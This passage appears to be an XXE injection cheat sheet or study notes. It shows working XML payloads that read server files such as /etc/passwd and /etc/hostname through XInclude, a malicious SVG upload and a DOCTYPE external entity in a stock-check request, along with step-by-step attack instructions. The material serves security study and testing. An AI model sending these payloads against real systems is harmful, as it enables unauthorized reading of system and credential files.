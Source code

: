 4. Hidden attack surface
	 1. XInclude

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
	<xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

	2. File Upload (docx, svg)

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> 
```

	3. Modified content type

```http
POST /action HTTP/1.0 
Content-Type: text/xml 
Content-Length: 52 

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>`
```


## File inclusion

To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways:

-   Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.
-   Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>
		381
	</productId>
</stockCheck>
```

The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the `/etc/passwd` file by submitting the following XXE payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
	<productId>
		&xxe;
	</productId>
</stockCheck>
```

